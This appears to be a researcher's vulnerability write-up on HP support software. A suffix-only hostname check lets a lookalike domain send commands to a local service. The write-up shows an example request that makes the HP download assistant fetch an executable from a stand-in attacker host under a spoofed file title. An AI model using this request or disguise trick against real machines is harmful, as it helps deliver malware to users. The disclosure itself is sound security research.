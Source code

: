 The line we need to focus on is this:
    
    if (!new Uri(uriString).GetComponents(UriComponents.Host, UriFormat.Unescaped).EndsWith("hp.com"))

In English this translates to **if the hostname ends with hp.com**, which is the **only way the program authenticates a valid request**. On the face of it this might look like a perfectly valid way to ensure that a HTTP request came from a valid HP domain however it is critically flawed. The check only checks if the domain **ends** with hp.com, so if a hacker were to register the domain **nothp.com** and make a request from there then it would pass the check. Apart from [giving me Déjà vu](http://tomforb.es/dell-system-detect-rce-vulnerability) it also gives me a foot in the door - any command I issue will be processed by the software. So let's see what commands can be processed.


### Triggering a download
When the program processes a request it inspects the first two components of the requested path. The first is used to look up a **controller**, and the second component (if present) specifies the **method**. In the Chrome screenshot above it is making a request to the **version** controller, which has one default action that returns the software version. Looking through the source there are several interesting controllers, but we shall start with the **HPDIAcontroller** which is used to drive the "HP Download and Install Assistant". The actual code is pretty convoluted and not particularly relevant, but what is interesting is that if we make a request to (some unimportant parameters omitted):

    http://localhost:8092/hpdia/run?RemoteFile=https://hacker.com/messbox.exe&FileTitle=update.exe

Then this triggers the download assistant to start, which brings itself to the foreground downloads the file:

![](./Install_MFTZFC73.png)

I looked long and hard but the software doesn't automatically install anything without user interaction. However this doesn't render the attack useless, far from it. The attacker is able to control the displayed file title ("update.exe" in the screenshot) and can completely hide the real executable name by calling it "_.exe", which causes the download assistant to display "(.exe)" after it. One redeeming feature of this software is that it only accepts download requests for files that are served over HTTPS.

If an inexperienced user were to visit an malicious page that looked like a real HP site telling them to update their software and the HP download manager pops up I think many might press install, which would execute the attacker's malware and compromise their machines. For some advanced malware merely being downloaded could be enough.
